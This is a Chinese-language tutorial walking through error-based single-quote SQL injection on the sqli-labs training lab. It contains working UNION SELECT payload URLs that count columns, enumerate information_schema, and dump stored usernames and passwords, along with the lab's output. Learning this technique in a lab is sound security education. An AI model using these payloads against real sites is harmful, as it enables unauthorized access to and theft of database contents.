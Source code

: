 # 基本步骤
1. 判断是什么类型注入，有没有过滤关键字，是否能绕过
2. 确定存在注入的表的列数以及表中数据那些字段可以显示出来
3. 获取数据库版本，用户，当前连接的数据库等信息
4. 获取数据库中所有表的信息
5. 获取某个表的列字段信息
5. 获取相应表的数据

## 基于错误的GET单引号字符型注入
### 1.  一般判断是否存在基于错误的盲注和显错注入，可以使用以下方法：
**单引号， and 1=1 ，and 1=2 ，双引号，反斜杠，注释等**

输入单引号，有报错信息，说明存在注入，没有过滤单引号(单引号被url编码)
```
http://127.0.0.1/sqli/Less-1/?id=2%27
```
**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''2'' LIMIT 0,1' at line 1**

此时的注入语句为：
```SQL
SELECT * FROM users WHERE id='2'' LIMIT 0,1 （报单引号不匹配的错）
```

为了让单引号闭合，可以使用注释符，将多余的单引号注释掉

注释符常用的有两种:
- -- ' 一定要注意在最后一个单引号前面有空格
- #


### 2. 确定表的列数（总共的字段数）
**由于接下来要采用union探测内容，而union的规则是必须要求列数相同才能正常展示，因此必须要探测列数，保证构造的注入查询结果与元查询结果列数与数据类型相同；**
```
http://127.0.0.1/sqli/Less-1/?id=2 order by 1
```
‘order by 1’代表按第一列升序排序，若数字代表的列不存在，则会报错，由此可以探测出有多少列。

当试到'4'时，出现报错信息，可以知道该表有3列：
  **Unknown column '4' in 'order clause'**
执行的sql语句是:
```sql
SELECT * FROM users WHERE id='2' order by 4 -- '' LIMIT 0,1
```

### 3. 确定字段的显示位
- 显示位：表中数据第几位的字段可以显示，因为并不是所有的查询结果都会展示在页面中，因此需要探测页面
中展示的查询结果是哪一列的结果
- ‘union select 1,2,3 – ’ 通过显示的数字可以判断那些字段可以显示出来。
```
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,2,3 -- '
```

可见2,3所在的字段可以显示
> ps:id=-1,使用-1是为了使前一个sql语句所选的内容为空，从而便于后面的select语句显示信息


### 4. 获取当前数据库信息

现在只有两个字段可以显示信息，显然在后面的查询数据中，两个字段是不够用，可以使用group_concat()函数（可以把查询出来的多行数据连接起来在一个字段中显示）

- database()函数：查看当前数据库名称
- version()函数：查看数据库版本信息
- user():返回当前数据库连接使用的用户
- char():将十进制ASCII码转化成字符，以便于分隔每个字段的内容
```
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,group_concat(database(),version()),3 -- '

  Your Login name:security5.5.53
  Your Password:3
```

可以知道当前
数据库名为security，数据库版本为5.5.53

### 5. 获取全部数据库信息
Mysql有一个系统的数据库**information_schema**,里面保存着所有数据库的相关信息，使用该表完成注入
```
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,group_concat(char(32),schema_name,char(32)),3 from information_schema.schemata -- '
```
获取到了所有的数据库信息 information_schema ,security

#### 获取security数据库中的表信息
```
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,group_concat(char(32),table_name,char(32)),3 from information_schema.tables where table_schema='security' -- '

Your Login name: emails , referers , uagents , users 
Your Password:3
```
> ps:table_schema= '数据库的名'

#### 获取users表的列
```
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '

 Your Login name: user_id , first_name , last_name , user , password , avatar , last_login , failed_login , id , username , password
 Your Password:3
 ```

执行的sql语句是:

```sql
SELECT * FROM users WHERE id='-1' union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '' LIMIT 0,1
```

#### 获取数据
```
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,group_concat(char(32),username,char(32),password),3 from users -- '
 Your Login name: Dumb Dumb, Angelina I-kill-you, Dummy p@ssword, secure crappy, stupid stupidity, superman genious, batman mob!le, admin admin, admin1 admin1, admin2 admin2, admin3 admin3, dhakkan dumbo, admin4 admin4
 Your Password:3
 ```
执行的sql语句是:
```sql
SELECT * FROM users WHERE id='-1' union select 1,group_concat(char(32),username,char(32),password),3 from users -- '' LIMIT 0,1
```
